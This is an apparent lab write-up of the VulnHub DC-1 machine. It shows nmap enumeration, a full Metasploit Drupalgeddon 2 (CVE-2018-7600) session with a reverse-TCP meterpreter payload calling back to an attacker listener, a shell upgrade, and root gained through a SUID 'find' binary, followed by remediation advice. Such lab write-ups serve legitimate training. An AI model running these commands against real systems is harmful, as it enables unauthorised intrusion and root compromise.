






# BOX NAME: DC-01 (VULNHUB)
* **Target IP:** `10.128.167.X`
* **OS:** Linux
* **Difficulty:** easy
---

## 1. Reconnaissans & Enumeration

### Nmap Scan 
We start by scanning all open tcp ports on the target machine


 ```bash
nmap -sv -sC --open 172.20.10.x
````
*  ### Key findings from The nmap scan:
*  * **Port 80** **http**
*  * **Port 22** **ssh**
*  * **port 111** **rpc-bind**
*  
*  
  
* ## numeration
* Ran an `nmap` scan -> saw port 80 open on Drupal.
* Knew from practice that Drupal likes to spill version numbers in the source code.
* Coded a basic Python TCP socket script to dump the raw HTTP response straight to my terminal (plus just right-clicked view-source in the browser to double-check).
* Got the version. Easy spot.
````
python3 tcp_client.py
````


* Figured out it was Drupal 7 from the source code
* Opened Google and searched for Drupal 7 remote code execution exploit / CVEs.
  

## GOOGLE SEARCH 
# Vulnerability Technical Brief: Drupal 7 RCE (Drupalgeddon 2 / CVE-2018-7600)

## Executive Summary
* **Vulnerability ID**: CVE-2018-7600 (Drupalgeddon 2)
* **Type**: Remote Code Execution (RCE) via Improper Input Validation / Render Array Manipulation
* **Severity**: Critical (CVSS ~9.8)
* **Affected Versions**: Drupal < 7.58 (and select vulnerable 8.x endpoints)
* **Authentication Requirement**: Unauthenticated (Remote)

---

## INITIAL FOOTHOLD
* After knowing that drupal 7 is vunarable and metasploit has a module of it i started msfconsole and set it up 
  
  # Metasploit Execution Runbook: Drupalgeddon 2 (CVE-2018-7600)

## Session Parameters
* **Target Host (`RHOSTS` / `RHOST`)**: `172.20.10.x` *(replace `x` with target host octet, e.g., `172.20.10.x)*
* **Attacker Listener (`LHOST`)**: `172.20.10.x
* **Listener Port (`LPORT`)**: `4444` (or any open/routable port)
* **Target URI (`TARGETURI`)**: `/` (adjust if Drupal is installed in a subdirectory like `/drupal`)

---

## Interactive / Scripted Metasploit Configuration

### Option A: Manual `msfconsole` Commands
Launch `msfconsole` and execute the following sequence:

```text
msf6 > use exploit/unix/webapp/drupal_drupalgeddon2

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS 172.20.10.x
RHOSTS => 172.20.10.x

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set TARGETURI /
TARGETURI => /

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set LHOST 172.20.10.x
LHOST => 172.20.10.x

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set LPORT 4444
LPORT => 4444

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > show options

Target options:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS     172.20.10.x      yes       The target host(s), see [https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html](https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html)
   TARGETURI  /                yes       The base path to Drupal application


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.20.10.x     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP Dropper)


msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

```
* After configuring metasploit and hittin run we finaly got a meterpreter shell back
  
 

* ## Privilege Escalation
* when i landed on the machine i landed as user www-data on the machine this is the lowest user possible on this target machine
* 

### Upgrading the Shell
The initial shell was non-interactive (lacking a TTY). Verifying that Python was installed on the target, i spawned a pseudo-terminal to upgrade the session.

```
 python -c 'import pty; pty.spawn("/bin/bash")'
 ```
## Getting Root Shell 
* got root on the machine by finding a suid binary that was not supposed to be runnig as root the /usr/bin/find


 
 * therefore spawning a root shell by utilizing GTFOBINS using this command  to gain root shell

````
find / -exec /bin/sh \; -quit
````



# Conclusion & Remediation Summary: DC-1 (Drupal 7)

## Risk & Impact Recap
The DC-1 assessment demonstrates how combining an unauthenticated web application vulnerability (Drupalgeddon 2/3 via `CVE-2018-7600`) with misconfigured system permissions (SUID bit set on `find`) rapidly escalates from remote code execution to total root-level system compromise. 

## Actionable Remediation Roadmap

| Vector / Layer | Control / Fix | Implementation Detail |
| :--- | :--- | :--- |
| **Application Layer** | Core Patching | Upgrade Drupal 7 instance immediately to version **7.58** or higher to eliminate Form API render array injection. |
| **Edge Defense** | WAF Rule Tuning | Deploy WAF rules rejecting HTTP bodies/query strings containing hash-prefixed parameters (`#post_render`, `#markup`). |
| **Privilege Boundary** | SUID Audit | Strip unnecessary SUID permissions from utility binaries (e.g., `chmod u-s /usr/bin/find`). Standard users should rely on restricted `sudo` rules rather than persistent SUID binaries. |
| **File System / Seccomp** | Least Privilege | Ensure web server user (`www-data`) operates with strict file write/execute boundaries outside designated upload paths. |

---

*Written by Festus Zulu, CEO of Offensaive AI*

